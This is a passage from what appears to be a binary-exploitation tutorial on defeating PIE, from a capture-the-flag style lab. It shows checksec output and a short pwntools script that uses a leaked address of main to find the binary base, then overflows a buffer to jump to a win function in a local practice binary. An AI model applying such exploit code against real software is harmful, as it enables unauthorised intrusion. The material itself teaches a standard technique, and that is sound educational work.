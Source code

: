 > By this point, I assume you know how to find the padding length and other stuff we've been mentioning for a while, so I won't be showing you every step of that.

And does it work?

```
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process 'vuln-32': pid 4617
PIE bypassed! Great job :D
```

Awesome!

#### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('at: ')
main = int(p.recvline(), 16)

elf.address = main - elf.sym['main']

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

print(p.clean().decode('latin-1'))
```

#### Summary

From the leaked address of the `main`, we were able to calculate the base address of the binary. From this, we could then calculate the address of the `win` and call it.

And one thing I would like to point out is how *simple* this exploit is. Look - it's 10 lines of code, at least half of which is scaffolding and setup.

#### 64-bit

Try this for yourself first, then feel free to check the solution. Same source, same challenge.

[pie-64](../assets/pie-64.zip)

### PIE Bypass

> Using format string

